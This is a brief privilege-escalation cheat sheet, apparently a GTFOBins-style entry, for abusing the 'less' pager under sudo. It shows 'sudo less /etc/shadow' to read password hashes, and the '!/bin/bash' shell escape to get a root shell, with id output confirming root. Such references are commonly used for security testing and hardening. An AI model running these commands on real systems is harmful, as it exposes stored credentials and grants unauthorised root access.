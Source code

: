 # Less

View the credentials.

```
user@debian:~$ sudo less /etc/shadow
```

Elevate to root.

```
user@debian:~$ sudo less /etc/profile
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```